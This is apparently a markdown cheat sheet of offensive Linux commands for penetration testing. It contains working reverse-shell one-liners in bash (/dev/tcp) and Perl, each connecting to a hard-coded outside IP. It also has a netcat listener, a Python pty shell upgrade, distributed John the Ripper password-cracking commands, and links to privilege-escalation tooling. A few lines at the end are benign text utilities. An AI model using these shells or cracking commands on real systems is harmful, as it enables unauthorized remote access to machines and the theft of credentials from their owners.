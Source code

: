 # Linux 

## Shell

### Reverse

```bash
exec 5<>/dev/tcp/192.168.10.1/1337 ; cat <&5 | while read line; do $line 2>&5 >&5; done
```
```perl
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"64.251.22.205:53");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

### Listen 

```bash
rlwrap nc -lnvp 1337
```

### Spawn
```bash
python -c  'import pty; pty.spawn("/bin/bash")'
```


## Password Crack
### Running jtr on multiple hosts

```bash
seq 5 8 | parallel -v --progress -j+0 ./john --session=sesson{} -wordlist={} hashs
seq 5 8 | parallel -v --progress -j+0 ./john --session=sesson{} -incremental=all{} hashs
```

## Privilege escalation

### Local checks
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS

### Techniques
...

## Utils
Match IP

```bash
perl -ne 'print "$1\n" if(m{(\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3})})' ups.txt
```

```bash
echo -n "Hello world" | perl -ne 'printf "%x",  unpack "C*" foreach (reverse split //) ';echo
```

Diff entries 

```bash
for i in $(cat all); do x=$(egrep $i z); if [ -z $x ]; then echo $i; fi ; done
```
## Miscellaneous
Binaries abuse:
- https://gtfobins.github.io/ (Linux)
